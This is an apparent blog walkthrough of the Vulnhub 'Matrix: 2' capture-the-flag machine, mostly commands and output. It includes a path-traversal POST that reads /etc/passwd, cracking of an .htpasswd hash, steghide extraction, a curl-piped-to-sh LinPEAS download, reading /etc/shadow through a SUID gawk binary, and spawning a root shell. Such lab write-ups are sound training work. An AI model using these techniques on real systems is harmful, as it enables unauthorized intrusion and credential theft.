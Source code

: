 ![Matrix: 2 Vulnhub Walkthrough](https://www.rootandbeer.com/content/images/size/w1200/2024/07/d87qld0-696e1144-5c76-4302-a586-1219749f10bb.jpg)

[https://www.vulnhub.com/entry/matrix-2,279/](https://www.vulnhub.com/entry/matrix-2,279/?ref=rootandbeer.com)

Description: Matrix v2.0 is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.

Difficulty: Intermediate

Flags: Your Goal is to get root and read /root/flag.txt

Networking:

- DHCP: Enabled
- IP Address: Automatically assigned

Hint: Follow your intuitions ... and enumerate!

**Run [[nmap]] -A scan against all TCP ports:**

```bash
└─$ nmap -A -p- 192.168.5.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 22:21 EDT
Nmap scan report for 192.168.5.106
Host is up (0.0030s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome in Matrix v2 Neo
1337/tcp  open  ssl/http           nginx
|_http-title: 401 Authorization Required
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Welcome to Matrix 2
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
12320/tcp open  ssl/http           ShellInABox
|_http-title: Shell In A Box
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
12321/tcp open  ssl/warehouse-sss?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
12322/tcp open  ssl/http           nginx
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
| tls-nextprotoneg: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_file_view.php
|_http-title: Welcome in Matrix v2 Neo
```

**Checking out** http://192.168.5.106:12322/file_view.php **returned a blank page. In the page source it shows**

> _<!– Error file parameter missing..!!! -->_

**Using Burpsuite we can see that the header information is using a GET request instead of a POST.**

![](https://www.rootandbeer.com/content/images/2024/07/data-src-image-536b3e0d-8e0a-460e-92da-4bbd506de35e.png)


>[!caution]
>Had trouble converting GET to a POST request using Burp Suite, not sure why but it wasn't changing it to POST so had to use _curl_ instead.


**Using curl lets us make a _post_ request**

```bash
└─$ curl -X POST -k https://192.168.5.106:12322/file_view.php -d "file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
...
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```

>[!hint] Note Usernames
>**testuser & n30_**

**Login to ShellInABox with** _testuser:testuser_ **@** https://192.168.5.106:12320/

**Check web root directories for files:**

```bash
└─$ ls -lah /usr/share/adminer/adminer/                                                                                                                                              
total 28K                                                                                                                                                                          
drwxr-xr-x 4 root root 4.0K Dec 14  2018 .                                                                                                                                         
drwxr-xr-x 3 root root 4.0K Dec  8  2018 ..                                                                                                                                        
drwxr-xr-x 2 root root 4.0K Dec  8  2018 css                                                                                                                                       
-rw-r--r-- 1 root root  196 Dec  8  2018 file_view.php                                                                                                                             
-rw-r--r-- 1 root root 3.0K Dec 14  2018 index.php                                                                                                                                 
drwxr-xr-x 2 root root 4.0K Dec  8  2018 js                                                                                                                                        
-rw-r--r-- 1 root root   38 Dec  8  2018 robots.txt

└─$ ls -lah /var/www/
total 48K                                                                                                                                                                          
drwxr-xr-x  4 root root 4.0K Dec 14  2018 .
drwxr-xr-x 12 root root 4.0K Dec  7  2018 ..
drwxr-xr-x  4 root root 4.0K Dec 14  2018 4cc3ss
-rw-r--r--  1 root root  25K Dec  8  2018 h1dd3n.jpg
-rw-r--r--  1 root root 3.6K Dec 14  2018 index.php                                                                                                                                
drwxr-xr-x  2 root root 4.0K Dec  8  2018 p4ss
```

**Obtain** _Tr1n17y_ **user password hash from** _.htpasswd_ **file:**

```bash
└─$ cat /var/www/p4ss/.htpasswd                                                                                                                                                      
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

**Crack** _Tr1n17y_ **password hash:**

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --rules htpasswd 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (Tr1n17y)
1g 0:00:00:01 DONE (2024-07-14 21:42) 0.7407g/s 14791p/s 14791c/s 14791C/s checkmate..jaleesa
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

**Navigate to:** https://192.168.5.106:1337/ – **note** _n30_ **is in bright red font.. could this be a password?**

![](https://www.rootandbeer.com/content/images/2024/07/data-src-image-1a9a830b-5831-41a3-8e25-022a50f69f56.jpeg)

**Download hidden jpeg (noted from web root directory listing above):** https://192.168.5.106:1337/h1dd3n.jpg

**Install steghide on Kali and run it against hidden jpeg, using** _n30_ **as password:**

```bash
└─$ sudo apt install steghide

└─$ steghide extract -sf h1dd3n.jpg 
Enter passphrase: n30
wrote extracted data to "n30.txt".
                                                                                                                                            
└─$ cat n30.txt 
P4$$w0rd
```

**Login to ShellInABox with** _n30:P4\$\$w0rd_ **@** https://192.168.5.106:12320/

**Run [[LinPEAS]]**
```bash
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Of note in [[LinPEAS]] output - morpheus SUID binary in** _/usr/bin_:

```bash
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                 
╚════════════════════════════════════╝                                                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                   
strace Not Found                                                                                                                                                                   
You own the SUID file: /tmp/bash
-rwsr-xr-x 1 root root 11K Jan 22  2017 /usr/lib/authbind/helper
-rwsr-xr-x 1 root root 431K Aug 21  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 59K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-r-sr-x--- 1 root n30 647K Dec  8  2018 /usr/bin/morpheus (Unknown SUID binary!)
```

_/usr/bin/morpheus_ **appears to be the gawk binary:**

```bash
n30@Matrix_2 ~$ /usr/bin/morpheus 
Usage: morpheus [POSIX or GNU style options] -f progfile [--] file ...                                                                                                             
Usage: morpheus [POSIX or GNU style options] [--] 'program' file ...                                                                                                               
POSIX options:          GNU long options: (standard)                                                                                                                               
...                                                                                                                                    
                                                                                                                                                                                
To report bugs, see node `Bugs' in `gawk.info', which is                                                                                                                           
section `Reporting Problems and Bugs' in the printed version.                                                                                                                      
                                                                                                                                                                                   
gawk is a pattern scanning and processing language.                                                                                                                                
By default it reads standard input and writes standard output.                                                                                                                     
                                                                                                                                                                                   
Examples:                                                                                                                                                                          
        gawk '{ sum += $1 }; END { print sum }' file                                                                                                                               
        gawk -F: '{ print $1 }' /etc/passwd      
```

**Use the gawk SUID escalation vector to read** _/etc/shadow_**, as shown in GTFO bins (**[**https://gtfobins.github.io/gtfobins/gawk/**](https://gtfobins.github.io/gtfobins/gawk/?ref=rootandbeer.com)**)**

```bash
n30@Matrix_2 ~$  LFILE=/etc/shadow                                                                                                                                                                     
n30@Matrix_2 ~$ /usr/bin/morpheus '//' "$LFILE"
root:$6$d6i7/gdA$w/VkPrhMPBcRgaelZs0gwuugQ0M6MLxj8qSPjCv6zzdHIJwPmA1NKBn8LBHdRiGIjz3HyCFdVmD.nq0yJZvh90:17878:0:99999:7:::                                                         
...
```

**Tried to crack this password hash with** _rockyou.txt_ **but had no success**

**Use the gawk escalation vector to spawn a root shell, as shown in GTFO bins (**[**https://gtfobins.github.io/gtfobins/gawk/**](https://gtfobins.github.io/gtfobins/gawk/?ref=rootandbeer.com)**):**

```bash
n30@Matrix_2 ~$ /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'                                                                                                                      
# id                                                                                                                                                                               
uid=1000(n30) gid=1000(n30) euid=0(root) groups=1000(n30)
```

**Cat the flag in** /root**:**

```bash
# cat /root/flag.txt                                                                                                                                                               
╦ ╦┌─┐┬ ┬┬─┐┌─┐  ┌─┐┌─┐┌─┐┌┬┐┌─┐┬─┐  ┌┬┐┬ ┬┌─┐┌┐┌  ┌┬┐┬ ┬┬┌─┐                                                                                                                      
╚╦╝│ ││ │├┬┘├┤   ├┤ ├─┤└─┐ │ ├┤ ├┬┘   │ ├─┤├─┤│││   │ ├─┤│└─┐                                                                                                                      
 ╩ └─┘└─┘┴└─└─┘  └  ┴ ┴└─┘ ┴ └─┘┴└─   ┴ ┴ ┴┴ ┴┘└┘   ┴ ┴ ┴┴└─┘o                                                                                                                     
╔╦╗┌─┐┌┐┌┌┬┐  ┌┬┐┬ ┬┬┌┐┌┬┌─  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐                                                                                                                                  
 ║║│ ││││ │    │ ├─┤││││├┴┐  └┬┘│ ││ │  ├─┤├┬┘├┤                                                                                                                                   
═╩╝└─┘┘└┘ ┴    ┴ ┴ ┴┴┘└┘┴ ┴   ┴ └─┘└─┘  ┴ ┴┴└─└─┘┘                                                                                                                                 
┬┌─┌┐┌┌─┐┬ ┬  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐                                                                                                                                                 
├┴┐││││ ││││  └┬┘│ ││ │  ├─┤├┬┘├┤                                                                                                                                                  
┴ ┴┘└┘└─┘└┴┘   ┴ └─┘└─┘  ┴ ┴┴└─└─┘o                                                                                                                                                
   ╔╦╗┌─┐┬─┐┌─┐┬ ┬┌─┐┬ ┬┌─┐                                                                                                                                                        
───║║║│ │├┬┘├─┘├─┤├┤ │ │└─┐                                                                                                                                                        
   ╩ ╩└─┘┴└─┴  ┴ ┴└─┘└─┘└─┘                                                                                                                                                        
╔═╗╦╔═╔═╗                                                                                                                                                                          
╠═╣╠╩╗╠═╣                                                                                                                                                                          
╩ ╩╩ ╩╩ ╩                                                                                                                                                                          
┬ ┬┌┐┌┬┌─┌┐┌┌─┐┬ ┬┌┐┌┌┬┐┌─┐┬  ┬┬┌─┐┌─┐                                                                                                                                             
│ ││││├┴┐││││ │││││││ ││├┤ └┐┌┘││  ├┤ 64                                                                                                                                           
└─┘┘└┘┴ ┴┘└┘└─┘└┴┘┘└┘─┴┘└─┘ └┘ ┴└─┘└─┘  
```
